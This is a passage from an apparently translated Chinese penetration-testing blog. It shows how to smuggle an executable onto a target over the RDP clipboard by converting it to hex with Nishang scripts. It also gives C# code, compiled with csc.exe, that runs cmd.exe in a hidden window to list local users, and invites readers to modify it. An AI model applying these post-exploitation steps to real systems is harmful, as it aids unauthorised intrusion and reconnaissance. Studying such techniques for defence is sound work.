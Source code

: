http://code.google.com/p/nishang/downloads/list

当需要把一个exe文件放到目标计算机上时，这可能是我最喜欢的工具，Nishang使用PowerShell允许你吧一个exe转换成hex，然后吧hex再转换成原来的exe文件。

把exe转成hex文件输入：

```
PS > .\ExetoText.ps1 evil.exe evil.txt

```

打开evil.txt文件，复制内容，然后通过RDP的剪贴板复制进目标计算机。

把hex文件还原成exe文件输入：

```
PS > .\TexttoExe.ps1 evil.text evil.exe

```

### Csc.exe to Compile Source from a File

C的编译器（CSC）是包含在在Windows微软.NET安装中的命令行编译器。

这个可执行文件的默认位置是以下情况：

```
C:\Windows\Microsoft.NET\Framework\version

```

使用下面的示例代码，编译后的可执行文件将使用的cmd.exe来查询本地用户，然后将结果写入一个在C:\Temp\users.txt中。可以修改其中的代码，达到自己想要的目的，然后编译成exe文件。

```
public class Evil
{
   public static void Main()
   {
      System.Diagnostics.Process process = new System.Diagnostics.Process();
      System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
      startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
      startInfo.FileName = "cmd.exe";
      startInfo.Arguments = "/C net users > C:\\Temp\\users.txt";
      process.StartInfo = startInfo;
      process.Start();
   }
}

```

代码编译命令：

```
csc.exe /out:C:\evil\evil.exe C:\evil\evil.cs

```

### Wrap up

希望这篇blog对你有所帮助。